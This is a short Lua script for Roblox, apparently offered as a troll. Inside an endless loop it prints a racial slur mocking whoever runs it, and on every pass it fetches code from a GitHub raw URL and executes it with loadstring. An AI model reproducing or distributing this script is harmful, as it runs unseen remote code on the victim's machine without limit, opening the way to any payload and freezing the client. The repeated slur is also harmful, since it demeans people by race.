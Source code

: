 while true do
    print("haha nigga trolled by N4R#1337 stupid nigga fatass imao")
    loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/uq6/uq6/main/README.md", true))()
end
